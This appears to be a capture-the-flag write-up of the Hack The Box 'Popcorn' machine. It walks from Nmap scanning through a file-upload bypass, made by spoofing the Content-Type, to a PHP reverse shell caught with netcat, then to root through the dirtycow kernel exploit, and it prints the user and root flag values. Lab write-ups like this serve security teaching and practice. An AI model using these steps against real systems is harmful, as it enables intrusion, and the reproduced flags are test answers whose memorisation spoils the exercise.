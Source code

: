 # Popcorn
## Reconnaissance

* Performed TCP scans using Nmap. (Did not include UDP and other TCP scans)
```
sudo nmap -sC -sS -sV -A 10.10.10.6
```
* The results of the Nmap show that TCP port 22 and 80 are open. Target machine OS is Ubuntu Linux.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Device type: general purpose|WAP|printer|phone|storage-misc|remote management
Running (JUST GUESSING): Linux 2.6.X|2.4.X (93%), AVM embedded (92%), Canon embedded (92%), Google Android 2.X (92%), LG embedded (92%), Epson embedded (91%), Avocent embedded (90%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/h:avm:fritz%21box_fon_wlan_7240 cpe:/h:canon:imagerunner_advance_c3320i cpe:/h:canon:imagerunner_advance_c3325 cpe:/o:google:android:2.3.5 cpe:/h:lg:n4b2nd4 cpe:/h:epson:wf-2660 cpe:/o:linux:linux_kernel:2.4.20
Aggressive OS guesses: Linux 2.6.17 - 2.6.36 (93%), AVM FRITZ!Box FON WLAN 7240 WAP (92%), Canon imageRUNNER ADVANCE C3320i or C3325 copier (92%), Android 2.3.5 (Linux 2.6) (92%), Linux 2.6.30 (92%), Linux 2.6.32 (92%), Linux 2.6.35 (92%), LG N4B2ND4 NAS device (Linux 2.6) (92%), Epson WF-2660 printer (91%), Linux 2.4.20 (Red Hat 7.2) (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* Web enumeration
```
dirbuster for http://10.10.10.6
Threads:30
extensions:php,aspx,asp,txt
not recursive
```
* Webscan Results
```
```

* Access http://10.10.10.6/test.php, which runs phpinfo
```
System 	Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686
Build Date 	May 2 2011 22:56:18
Server API 	Apache 2.0 Handler
Virtual Directory Support 	disabled
Configuration File (php.ini) Path 	/etc/php5/apache2
Loaded Configuration File 	/etc/php5/apache2/php.ini
Scan this dir for additional .ini files 	/etc/php5/apache2/conf.d
additional .ini files parsed 	/etc/php5/apache2/conf.d/gd.ini, /etc/php5/apache2/conf.d/mysql.ini, /etc/php5/apache2/conf.d/mysqli.ini, /etc/php5/apache2/conf.d/pdo.ini, /etc/php5/apache2/conf.d/pdo_mysql.ini
PHP API 	20041225
PHP Extension 	20060613
Zend Extension 	220060519
Debug Build 	no
Thread Safety 	disabled
Zend Memory Manager 	enabled
IPv6 Support 	enabled
Registered PHP Streams 	https, ftps, compress.zlib, compress.bzip2, php, file, data, http, ftp, zip
Registered Stream Socket Transports 	tcp, udp, unix, udg, ssl, sslv3, sslv2, tls
Registered Stream Filters 	zlib.*, bzip2.*, convert.iconv.*, string.rot13, string.toupper, string.tolower, string.strip_tags, convert.*, consumed 
```

## Delivery & Exploitation

* Access http://10.10.10.6/torrent. Runs Torrent Hoster.
* Tried uploading php file but failed. Uploaded kali linux torrent file instead.
![image](https://raw.githubusercontent.com/kookiecrack/images/main/torrent.png)

* Tried uploading php file for screenshot image but failed. Used burp suite to intercept the HTTP packets.
```
Change 'Content-Type: application/x-php' to 'Content-Type: image/png' and use Repeater to send HTTP POST request.
Upload success!
Access reverse php shell from http://10.10.10.6/torrent/uploads
```
![image](https://raw.githubusercontent.com/kookiecrack/images/main/Burp.png)

* Reverse php web shell obtained

```
kali@kali:~/HTB/popcorn$ nc -nvlp 4444   
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.6] 45090
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 18:09:19 up  7:48,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
```

## Privilege Escalation
* google search for linux 2.6.31 local privilege escalation revealed potential 'dirtycow' exploit. 
* Successfully priv esc using [FireFart's exploit](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)
* Transferred exploit using wget and python SimpleHTTPServer
```

$ cat user.txt
7f7996604baa821f2644bb0da8fa1cd8
firefart@popcorn:/tmp# whoami
whoami
firefart
firefart@popcorn:/tmp# id
id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:/tmp# cat /root/root.txt
cat /root/root.txt
9cb1e1150e46be0cc7c0247c7dff7b9a
firefart@popcorn:/tmp# ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:33:3f  
          inet addr:10.10.10.6  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:333f/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:333f/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1276815 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1171211 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:326685100 (326.6 MB)  TX bytes:286452794 (286.4 MB)
          Interrupt:18 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:1288 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1288 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:131698 (131.6 KB)  TX bytes:131698 (131.6 KB)
```
